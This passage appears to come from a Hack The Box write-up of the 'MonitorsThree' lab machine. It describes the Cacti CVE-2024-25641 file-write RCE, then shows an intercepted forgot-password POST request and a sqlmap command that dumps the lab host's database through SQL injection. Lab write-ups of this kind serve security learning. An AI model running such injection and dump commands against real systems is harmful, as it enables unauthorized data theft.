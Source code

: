 However, a significant security vulnerability, identified as <mark style="color:red;">**`CVE-2024-25641`**</mark>, has been discovered in Cacti versions before <mark style="color:red;">**`1.2.27`**</mark>. This vulnerability allows for arbitrary file write, which attackers could exploit to execute remote code on the affected systems. This **Remote Code Execution (RCE)** flaw presents a critical risk, as it could potentially allow unauthorized users to gain control over the network monitoring system, leading to unauthorized access, data manipulation, or even complete system compromise. Users are strongly advised to update to the latest version of Cacti to mitigate this vulnerability and protect their infrastructure from potential attacks.

## WWW-Data

There are two POST requests made to [http://monitorsthree.htb/login.php](http://monitorsthree.htb/login.php) and [http://monitorsthree.htb/forget\_password.php](http://monitorsthree.htb/forget_password.php). By intercepting and saving these requests using BurpSuite's proxy, we can effectively analyze them for potential SQL injection vulnerabilities. This process allows us to identify and exploit any weaknesses in the system, ensuring a thorough security assessment.

Use Burp Intercept to copy request to file:&#x20;

{% code title="request.txt" %}
```
POST /forgot_password.php HTTP/1.1
Host: monitorsthree.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://monitorsthree.htb
Connection: keep-alive
Referer: http://monitorsthree.htb/forgot_password.php
Cookie: PHPSESSID=8si6gvrh8d709tbjhkdcjr47a6
Upgrade-Insecure-Requests: 1

username=admin
```
{% endcode %}

Checking database name:&#x20;

{% code overflow="wrap" %}
```bash
sqlmap -r request.txt --dbs --batch --dump --level=1 --risk=1 --threads=10 --dbms=mysql --time-sec=1 --flush-session
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>
